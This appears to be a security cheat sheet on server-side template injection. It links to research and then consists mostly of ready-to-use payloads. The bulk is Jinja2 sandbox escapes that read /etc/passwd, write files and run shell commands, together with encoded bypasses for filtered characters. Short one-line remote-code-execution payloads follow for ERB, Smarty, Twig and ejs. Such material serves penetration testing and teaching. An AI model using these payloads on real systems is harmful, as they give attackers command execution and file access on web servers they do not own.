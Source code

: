 # SSTI
- Identify Template Engine

    ![](https://miro.medium.com/max/701/1*3hIShkWH_gjOt1b0LNPURQ.png)

- Jinja2

    > [Flask default template engine (doc)](https://jinja.palletsprojects.com/en/3.1.x/)  
    > [Exploiting Jinja SSTI with limited payload size.](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/)  
    > [GreHack 2021 - Optimizing Server Side Template Injections payloads for jinja2](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/)  
    > [RCE-bypassing-as-much-as-I-possibly-can](https://hackmd.io/@Chivato/HyWsJ31dI#RCE-bypassing-as-much-as-I-possibly-can)  
    > [On SSTI & bypass of jinja2](https://chowdera.com/2020/12/20201221231521371q.html)  
    > [Builtin Filters](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f)

    - Get `os`
        - `{{lipsum.__globals__.os}}`
        - `{{cycler.__init__.__globals__.os}}`
    - Load `os`
        - `{{config.from_object('os')}}`
    - `{{ config }}`
        - config.SECRET\_KEY
        - config.from\_pyfile(filename)
    - `{{ request }}`
        - request.args.name
        - request.cookies.name
        - request.headers.name
        - request.values.name
        - request.form.name
    - sandbox bypass

        ```python
        #All the below payloads works under python2
        --------------------------------------------

        #Starting from string or list
        {{ ''.__class__.__base__ }}

        #File operation
        {{ ''.__class__.__mro__[2].__subclasses__() }}
        {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
        {{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/app/a.txt').write('test') }}
        
        #RCE
        {{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read() }}
        > uid=1000(ubuntu)gid=1000(ubuntu)...

        #All the below payloads works under python3
        --------------------------------------------
        {{ ().__class__.__base__.__subclasses__() }}
        {{ ().__class__.__base__.__subclasses__()[132] }} #<class 'os._wrap_close'>
        {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__ }}
        {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('id') }}

        #Find eval
        {% for c in [].__class__.__base__.__subclasses__(): %}
          {% if c.__name__ == 'catch_warnings': %}
            {% for b in c.__init__.__globals__.values(): %}
              {% if b.__class__ == {}.__class__ %}
                {% if 'eval' in b.keys(): %}
                  {{ b['eval']('__import__("os").popen("id").read()') }}
                {% endif %}
              {% endif %}
            {% endfor %}
          {% endif %}
        {% endfor %}

        #Import
        {% for x in ().__class__.__base__.__subclasses__() %}
          {% if "warning" in x.__name__ %}
            {{x()._module.__builtins__["__import__"]("os").popen(request.args.payload).read()}}
          {% endif %}
        {% endfor %}
        ```

    - Bypass
        - `.`

            ```txt
            /?ssti={{libsum['__globals__']['os']}}
            ```

        - `.` `_`

            ```txt
            /?ssti={{lipsum['\x5f\x5fglobals\x5f\x5f']['os']}}
            ```

        - `.` `_` `[` `]`

            ```txt
            /?ssti={{lipsum|attr('\x5f\x5fglobals\x5f\x5f')|attr('os')}}
            ```

        - `.` `_` `[` `]` `|`

            ```txt
            /?ssti={{getattr(getattr(lipsum,'\x5f\x5fglobals\x5f\x5f'), 'os')}}
            ```

        - `.` `_` `[` `]` `{{` `}}`

            ```txt
            /?ssti={%if lipsum|attr('\x5f\x5fglobals\x5f\x5f')|attr('os') %}{%endif%}
            ```

        - length or other special characters (`'` `"`)

            ```txt
            /?ssti={{lipsum[request.args.param1][request.args.param2]}}&param1=__globals__&param2=os

            /?ssti={{config.update(payload=request.args.param1)}}&param1=ls
            /?ssti={{lipsum.__globals__.os.popen(config.payload)}}
            ```

- Ruby erb
    - `<%= system('id') %>`
- PHP Smarty
    - `{ system('id') }`
- PHP Twig
    - `{{ ['id'] | filter('system') }}`
- Node.js ejs
    - `<%= global.process.mainModule.require("child_process").execSync("id").toString() %>`
- Format String Attack
